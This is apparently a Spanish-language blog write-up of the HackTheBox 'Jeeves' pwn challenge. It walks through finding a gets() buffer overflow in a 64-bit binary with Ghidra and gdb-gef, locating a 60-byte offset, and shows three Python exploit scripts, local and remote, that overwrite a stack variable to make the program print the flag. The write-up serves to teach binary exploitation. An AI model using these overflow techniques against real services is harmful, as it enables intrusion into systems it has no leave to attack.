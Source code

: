 ```yaml
---
title: Jeeves - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/image.png)

Este es un reto de pwning el cual implica explotar una vulnerabilidad Buffer Overflow en un binario de 64 bits. El objetivo principal es sobrescribir el valor de un registro de memoria en específico, el cual se emplea en una condición dentro del programa; la cual si resulta ser verdadera, provocará que este imprima la flag.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled.png)

Como se observa a continuación, el binario recibe un input del usuario, el cual es impreso en el output resultante de la ejecución:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%201.png)

Al analizar el código Assembler se identifican dos instrucciones importantes en la función **main**.

Primeramente se asigna el valor `0xdeadc0d3` al registro `rbp-4` , a través de la instrucción **MOV**.

```python
0x00005555555551f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
```

Posterior a esto, dicho valor es sometido a un condicional, a través de una instrucción **CMP**, de comparación, con el valor `0x1337bab3`.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%202.png)

Al observar el código fuente, reverseado con **Ghidra**, se puede entender mucho mejor cómo funciona el programa.

Como se visualiza en imagen, el valor de la variable `target_variable` es sometido a un condicional. Si dicho valor es igual a `0x1337bab3`, el programa imprimirá el contenido del archivo `flag.txt`, caso contrario no lo hará y sólo terminará la ejecución: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%203.png)

Es importante mencionar que en el código reverseado se identifica que el programa recibe el input del usuario a través de la función `gets`, la cual es vulnerable a ataques de desbordamiento de buffer, de acuerdo a su documentación:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%204.png)

Sabiendo esto, se procede a debuggear el binario, utilizando la herramienta **gdb-gef**.

Previo a arrancar, se debe crear un archivo `flag.txt`, de prueba, debido a que el programa lee el contenido de este para obtener el valor de la flag: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%205.png)

Hecho esto, se procede a abrir el binario con **gdb-gef**, donde se establece un breakpoint en la instrucción de memoria, en la cual se realiza la comparación del valor `0x1337bab3` con el valor almacenado en el registro `rbp-0x4`:

```jsx
0x0000555555555236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%206.png)

Al ejecutar el programa, con el breakpoint en el condicional, se logra visualizar que el valor almacenado en el registro `rbp-4`, corresponde a `0xdeadc0d3`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%207.png)

A modo de prueba se modifica el valor de dicho registro de memoria por `0x1337bab3`, con el objetivo de que el resultado de la condición sea verdadero:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%208.png)

Como se mostró en la imagen anterior, cuando el resultado de la condicional es verdadero, el programa imprime la flag, almacenada en el archivo `flag.txt`.

Sin embargo, para lograr el desafío de HTB no podemos usar **gdb**, debemos lograrlo directamente a través de un Buffer Overflow.

Para esto, primeramente podemos identificar que se configura el input del usuario, el cual como límite debe ser una cadena de 44 bytes:

```jsx
char user_name [44];
int flag_content;
void *flag_length;
int target_variable;
```

Si metemos más caracteres de los que soporta el valor de la variable, el buffer se sobrescribe al momento de llamar a la función `gets`, lo cual causa que el programa no termine su ejecución de manera exitosa:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%209.png)

Sabiendo esto, se crea una cadena de 100 bytes con la herramienta `pattern create`, de gdb, la cual se inyecta en el input para detectar el offset, que corresponde a todo el junk previo a meter para sobrescribir el valor almacenado en `rbp-4`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2010.png)

Como se puede ver, luego de inyectar dicha entrada de caracteres, se detecta que el offset es 60:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2011.png)

De esta manera, lo que se puede concluir hasta ahora, es que tenemos que introducir 60 caracteres antes de sobrescribir el valor de `rbp-4`.

De esta forma, a modo de validar la sobreescritura de `rbp-4` se crea la siguiente cadena, la cual son 60 As y 6 Bs:

```jsx
┌──(sha16㉿offs3c)-[~]
└─$ python3 -c "print('\x41'*60+'\x42'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```

Posterior a la inyección de la cadena creada, se determina que el offset es correcto, dado que el valor de `rbp-4` es `BBBBBB`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2012.png)

Dado esto, se procede a armar el siguiente exploit en Python3, el cual se encarga de inyectar el valor en el registro `rbp-4`:

```python
#!/usr/bin/python3

from pwn import context, process, p64

if __name__ == '__main__':
    # Set program context
    context.update(arch='amd64', os='linux')
    elf = process('./jeeves')

    # BoF
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    # Send payload
    elf.sendline(payload)
    elf.interactive()
```

Al ejecutar el exploit, se observa que la flag es obtenida correctamente:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2013.png)

Sabiendo que el exploit funciona, ahora este puede ser adaptado a una versión remota para obtener el flag de HackTheBox y completar el reto correctamente:

```python
#!/usr/bin/python3

from pwn import p64
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    with socket() as s:
        s.connect((host, port))
        s.send(payload)
        print(s.recv(4096))
        print(s.recv(4096))
```

Al ejecutar el exploit, se obtiene con éxito la flag del desafío:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2014.png)

De forma aparte, me gustaría mostrarles cómo con la librería de pwntools también pueden crear su propio exploit, un tanto más elegante:

```python
#!/usr/bin/python3

from pwn import remote, p64, success
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'
		
		# Remote Connection
    connection = remote(host, port)
    connection.sendline(payload)
    connection.recvuntil(b'Here\'s a small gift:')
    flag = connection.recv(4096)
    success(b'HTB Flag:' + flag)
```

Al ejecutarlo la flag es obtenida a través de un output mucho más limpio:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2015.png)

Eso es todo, espero que le haya gustado y servido mucho este post para aprender algunos conceptos básicos de binary exploitation. La verdad es una temática en la que recién me estoy adentrando y compartirles esto me sirve mucho para retroalimentar estos conceptos. 

Cualquier duda, consulta, corrección, etc., saben que me pueden contactar en LinkedIn o Twitter 👾

Happy Hacking 🏴‍☠️